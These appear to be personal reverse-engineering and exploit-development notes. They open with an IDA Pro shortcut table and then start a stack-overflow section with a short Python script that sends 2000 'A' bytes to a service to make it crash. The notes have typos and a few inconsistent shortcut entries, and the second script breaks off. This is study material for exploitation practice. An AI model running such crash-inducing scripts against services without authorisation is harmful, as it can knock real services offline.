 | Search Function | `Jump > Funcions` | `CTRL+P`(`CTRL+F` to search for function) | open Jump to a function windows |
| Search globa variables | `Jump > Jump by name` | `CTRL+L` | Search for globa variables |
| Cross-Referencing | n/a | `X` | Detect all usages of a specific function or global variable |
| Searching | n/a | `CTRL+F` | Use when highlight any object so it takes you to it's all refereces |
| Descompile | `Views > Open subviews > Generate pseudocode` | `F5` | Decompiling |
| Comment-pseudocode| n/a | `/` | Add comment on the decompiled code |
| Synchronize | `Right click > Synchronize with` | n/a | Synchronize pseudocode with disasembly window |
| prefixes | `Options > General > Line prefixes (graph)` | n/a | Enable line prefixes in the graph view. |
| Address Range | `Segements > Rebase Program` | n/a | Rebase the whole program address |
| Jump Address| `Jump > Jump to address` | `G` | Jump to address |
| PDB file | `File > Load file > PDB file` | n/a | Load PDB file |
| Debug | `Debugger> Start process` | `F9` | Start Debugging |
| Breakpoint | `Right Click > Add Breakpoint` | `F2` | Set a Breakpoint |
| Breakpoints list | `Debugger > Breakpoint > Breakpoint list` | `CTRL+ALT+B` | Show the breakpoints list |
| Stack View | `Right Click > Data Format > ...` | n/a | Change data format on stack view |
| Step Over | `Debugger > Step Over` | `F5` | Take a step over in debugging |
| Patching | `Edit > Patch program > Assemble` | n/a | Patch highlited instruction |
| Apply Patching | `Edit > Patch program > Apply patches to input file` | n/a | Apply Instruction Patching |

## Referances
- https://www.hex-rays.com/products/ida/support/freefiles/IDA_Pro_Shortcuts.pdf
- https://cheatography.com/chrischurilla/cheat-sheets/intro-to-ida/

# Stack Overflows
## Crashing The App
You send a request with huge data input and review the app if crash or no, Sometimes the App may not crash if you didn't send the data at once.
### Network Script
```
#!/usr/bin/python
import socket, os, time, struct

host = "192.168.0.101"
port = 8433
size = 2000
buffer = b"\x41" * size
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect((host, port))
s.send(buffer)
s.close()

```
### Web Script
```
#!/usr/bin/python
import socket, sys

```